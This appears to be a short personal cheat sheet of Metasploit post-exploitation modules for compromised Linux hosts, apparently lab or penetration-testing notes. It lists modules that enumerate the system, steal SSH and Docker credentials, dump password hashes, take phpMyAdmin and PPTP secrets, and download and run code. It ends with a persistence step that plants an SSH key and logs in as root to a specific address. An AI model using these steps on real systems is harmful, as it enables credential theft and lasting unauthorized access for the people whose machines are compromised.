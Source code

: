 post/linux/gather/enum_configs

post/multi/gather/env

post/linux/gather/enum_network

post/linux/gather/enum_protections

post/linux/gather/enum_system

post/linux/gather/checkcontainer

post/linux/gather/checkvm

post/linux/gather/enum_users_history

post/multi/manage/system_session

post/linux/manage/download_exec

the output of the above will be stored in "loot" and "notes"

https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist

post/multi/gather/ssh_creds
post/multi/gather/docker_creds
post/linux/gather/hashdump
post/linux/gather/ecryptfs_creds
post/linux/gather/enum_psk
post/linux/gather/enum_xchat
post/linux/gather/phpmyadmin_credsteal
post/linux/gather/pptpd_chap_secrets
post/linux/manage/sshkey_persistence

**persistence**

use post/linux/manage/sshkey_persistence
chmod 0400 ssh_key
ssh -i ssh_key root@192.182.80.3

search platform:linux name:persistence

